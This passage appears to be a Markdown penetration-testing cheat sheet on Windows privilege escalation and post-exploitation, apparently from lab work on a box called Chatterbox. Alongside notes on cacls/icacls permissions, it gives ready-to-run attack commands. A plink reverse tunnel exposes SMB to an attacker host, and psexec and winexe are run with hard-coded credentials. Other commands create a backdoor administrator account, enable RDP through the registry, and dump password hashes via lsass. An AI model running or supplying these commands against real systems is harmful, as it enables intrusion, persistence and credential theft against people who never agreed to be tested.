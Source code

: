     cacls Windows utility to view/edit file permissions
    /E to edit ACL
    /P to set permissions
    Alfred:F to give Alfred full control of the file
    ```
  - <https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490872(v=technet.10)>
    ```
    icacls "C:\Program Files (x86)\Program Folder"
    ```
    ```
    OI This folder and files
    CI This folder and subfolders
    IO The ACE does not apply to the current file/directory.

    No output message: This folder only
    (IO)(CI) This folder, subfolders and files
    (OI)(CI)(IO) Subfolders and files only
    (CI)(IO) Subfolders only
    (OI)(IO) Files only
    ```
- SSH from Windows to Attacker (Kali)
  - Manual
    - From Windows: `plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8`
    - From Attacker:
        ```bash
        netstat -ano | grep 445
        winexe -U Administrator //127.0.0.1 "cmd.exe"
        ```
  - Metasploit
    ```bash
    portfwd add -l 445 -p 445 -r 127.0.0.1
    use exploit/windows/smb/psexec
    set SMBDOMAIN CHATTERBOX
    set SMBUSER Administrators
    set SMBPASS Welcome1!
    set RHOST 127.0.0.1
    exploit
    ```
- Add user and enable RDP
    ```bash
    net user hacker hacker /add
    net localgroup /add Administrators hacker
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    ```
- [Windows file association](https://stackoverflow.com/questions/23074430/how-to-run-vbscript-from-command-line-without-cscript-wscript)
- Hashes
    - `ps -S lsass.exe` -> `hashdump`
### Bypasses
